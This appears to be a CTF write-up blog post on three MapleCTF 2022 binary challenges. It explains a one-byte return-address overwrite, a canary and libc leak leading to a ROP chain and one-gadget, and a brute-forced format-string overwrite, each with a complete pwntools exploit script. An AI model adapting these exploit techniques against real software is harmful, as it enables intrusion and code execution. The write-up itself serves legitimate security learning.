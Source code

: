 ```yaml
---
title: MapleCTF 2022
date: 2022-08-27 00:14:18
category: CTF Writeup
tags:
    - MapleCTF
---
```


## warmup1

A simple 1 byte buffer overflow to overwrite the first byte of the return address to main and jump to `win` function. 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

HOST = "warmup1.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./warmup1")
libc = elf.libc

context.log_level = "info"
p = remote(HOST, PORT)

# Exploit starts here
padding = 24
payload = b'A' * padding + b"\x19"
p.send(payload)
print(p.readall(timeout=1))
```

## warmup2

Very similar to `warmup1`, but with canary, ASLR all enabled. However, it provides us two `printf` function which can be used to leak canary and base addresses. 

First to leak out canary and stack address, then repeat the function by overwrite first byte of return address (actually we can repea arbitrary times to get everything we want). Then construct ROP chain to leak libc address, finally attack by using the one-gadget. 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)

HOST = "warmup2.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./warmup2")
libc = elf.libc

context.log_level = "info"
p = remote(HOST, PORT)

# Exploit starts here
padding = 0x108

# leak address
sa("?", b"A" * (padding + 1))
rl()
msg = rl()
canary = u64(b'\x00' + msg[0x10f:0x10f + 7])
info("CANARY LEAKED" + hex(canary))
stack_addr = u64(msg[0x116:-2].ljust(8, b'\x00'))
info("STACK_ADDR LEAKED" + hex(stack_addr))

sa("?", b"B" * padding + p64(canary) + p64(stack_addr) + b'\xd8')

sa("?", b"C" * (padding + 0x10))
ru("Hello ")
msg = rl()
return_addr = u64(msg[padding + 0x10:-2].ljust(8, b'\x00'))
elf.address = return_addr - 0x12e2
info("RETURN_ADDR LEAKED: " + hex(return_addr))
info("ELF_BASE CALCULATED: " + hex(elf.address))

# start exploit
pop_rdi = elf.address + 0x1353
payload = flat(
        b"D" * padding,
        canary,
        b"D" * 8,
        pop_rdi,
        elf.got["puts"],
        elf.plt["puts"],
        elf.symbols[b'vuln'],
        )
sa("?", payload)
ru("Wow, I'm ")
rl()
msg = rl()
putsaddr=u64(msg[:-1].ljust(8,b'\x00'))
info('puts->'+hex(putsaddr))
libc.address = putsaddr - libc.symbols['puts']

payload = flat(
        b"E" * padding,
        canary,
        b"E" * 8,
        libc.address + 0xe3b01, # one gadget
        )
sa("?", payload)
sl("DONE")

p.interactive()
```

## printf (learned from WP)

The program takes in the user input and then `printf` out. Classic format string challenge. However, I stuck at reruning the `printf` function to overwrite the return address. I thought of overwrite the chain pointers and get control, but failed because one `printf` don't allow to overwrite two places (return address and a pointer) 

After looking at the WP in the [reference](#Reference) section, they said all the secrets are lie in the [source code](https://elixir.bootlin.com/glibc/glibc-2.31/source/stdio-common/vfprintf-internal.c#L1748). 

The source code tell us that when it encounters the position character, `$`, it will store the value of positions into an internal buffer called `args_value`. So when doing the overwrite by using `%n`, the value was fatched is the initial value instead of the changed value. To get rid of this, we need to construct payload without the first `$` character. Instead, we may use `%c` or `%p` to get to the right poisition on stack.

That's all the information we can get, however, we still can't know the stack address to do the overwrite. That's where the bruteforce comes in (but tipically, CTF will not have bruteforce challenges to prevent DDoS the platform). 

EXP:

```python
from pwn import *


context.arch = "amd64"
context.log_level = "debug"
context.terminal = ["tmux", "splitw", "-h"]

r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)

HOST = "printf.ctf.maplebacon.org"
PORT = 1337
LOCAL = False
elf = ELF("./printf")
libc = elf.libc

while True:
    context.log_level = "info"
    if LOCAL:
        p = process(elf.file.name)
    else:
        context.log_level = "info"
        p = remote(HOST, PORT)

    # Exploit starts here
    # registers part
    payload = "%c" * 3
    size = 3
    payload += "%p" # bss (program addr)
    size += 14
    payload += "%c"
    size += 1

    # stack part
    payload += "%p" # stack addr
    size += 14
    payload += "%c" * 6
    size += 6
    payload += "%p" # libc_start_main (libc addr)
    size += 14
    payload += "%" + str(0x7348 - size) + "c"
    payload += "%hn%" + str(0xed - 0x48) + "c%43$hhn"
    # payload += "%" + str(0x178 - 0xed) + "%6$hhn" # prepare pointer to overwrite the libc_start_main
    sl(payload)

    ru("0x")
    base_addr = int(r(12), 16) - 0x4040
    ru("0x")
    stack_addr = int(r(12), 16)
    ru("0x")
    libc_addr = int(r(12), 16) - 0x24083
    print(hex(base_addr), hex(stack_addr), hex(libc_addr))

    if (stack_addr & 0xffff) != 0x7350:
        p.close()
        continue

    print("!!!!!!!!!!bruteforce success!!!!!!!!!!!!")
    # if LOCAL:
    #     gdb.attach(p, "b *go + 0x36\nc")

    # start exploit
    one_gadget = libc_addr + 0xe3b01
    low_word = one_gadget & 0xffff 
    low_word2 = (one_gadget & 0xffff0000) >> 16

    # setup the pointer for overwrite the return addr of main
    payload2 = "%" + str(0x78) + "c%6$hhn"
    payload2 += "%" + str(0xed - 0x78) + "c%43$hhn"
    sl(payload2)

    # overwrite part of the address
    payload2 = "%" + str(0x7a) + "c%6$hhn"
    payload2 += "%" + str(0xed - 0x7a) + "c%43$hhn"
    payload2 += "%" + str(low_word - 0xed) + "c%8$hn"
    sl(payload2)

    # finish up and get shell
    payload2 = "%" + str(low_word2) + "c%8$hn"
    sl(payload2)

    p.interactive()
```

## Reference

http://blog.redrocket.club/2020/12/23/HXPCTF-Still_Printf/
https://github.com/Mem2019/Mem2019.github.io/blob/master/codes/hxp2020-still-printf.py
